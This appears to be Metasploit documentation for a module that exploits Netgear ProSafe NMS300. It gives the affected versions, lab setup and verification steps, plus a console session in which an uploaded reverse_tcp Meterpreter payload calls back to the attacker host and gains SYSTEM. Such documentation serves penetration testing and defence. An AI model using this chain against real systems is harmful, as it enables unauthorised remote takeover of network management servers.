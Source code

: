 ## Vulnerable Application

Netgear's ProSafe NMS300 is a network management utility that runs on Windows systems.
The application has multiple vulnerabilities that can allow an unauthenticated remote
attacker to execute code as SYSTEM user. Vulnerabilities include authentication bypass,
SQL injection, arbitrary file upload, and privilege escalation across various versions.
This module is able to spawn a meterpreter session by chaining together two specific
vulnerabilities inside the FileUploadController and MyHandlerInterceptor classes.
This module has been tested with versions 1.5.0.2, 1.4.0.17, 1.1.0.13, 1.7.0.12, and 1.7.0.1.

## Testing
For installing the vulnerable version follow the steps below,
1. Download the [installer](https://www.netgear.com/support/product/nms300#download) for versions below **v1.7.0.22**.
2. Follow installation steps.

After these steps the ProSAFE NMS web panel will be exposed on the `http://localhost:8080/` address.

## Verification Steps

1. msfconsole
2. Do: `use exploit/windows/http/netgear_nms_rce`
3. Do: `set RHOST [IP]`
4. Do: `set RPORT [PORT]`
5. Do: `check`

## Options

## Scenarios

```
msf6 > use exploit/windows/http/netgear_nms_rce
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/netgear_nms_rce) > set rhosts 192.168.56.104
rhosts => 192.168.56.104
msf6 exploit(windows/http/netgear_nms_rce) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf6 exploit(windows/http/netgear_nms_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] 192.168.56.104:8080 - Uploading payload...
[+] 192.168.56.104:8080 - Payload uploaded successfully
[*] 192.168.56.104:8080 - Executing payload...
[*] Sending stage (175686 bytes) to 192.168.56.104
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.104:50133) at 2023-08-02 22:40:21 +0200

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter >

```
